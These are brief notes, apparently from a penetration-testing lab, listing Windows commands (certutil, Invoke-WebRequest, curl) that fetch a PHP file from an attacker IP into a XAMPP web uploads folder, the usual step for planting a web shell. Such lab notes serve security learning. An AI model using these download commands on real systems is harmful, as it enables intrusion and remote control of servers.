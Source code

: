 certutil -urlcache -split -f [http://192.168.45.229/](http://192.168.45.229/wget.ps1)8.php

- certutil - A built-in Windows utility normally used for certificate management
- urlcache - Accesses the Windows URL cache
- split - Splits the URL components (separates the filename from the path)
- f - Forces overwrite if file exists

  

  

Invoke-WebRequest -Uri "[http://192.168.45.229/8.php](http://192.168.45.229/8.php)" -UseBasicParsing -OutFile "8.php"

  

  

PS C:\xampp\htdocs\uploads> where.exe curl  
C:\Windows\System32\curl.exe

curl.exe -o "8.php" "[http://192.168.45.229/8.php](http://192.168.45.229/8.php)"

curl -o "8.php" "[http://192.168.45.229/8.php](http://192.168.45.229/8.php)"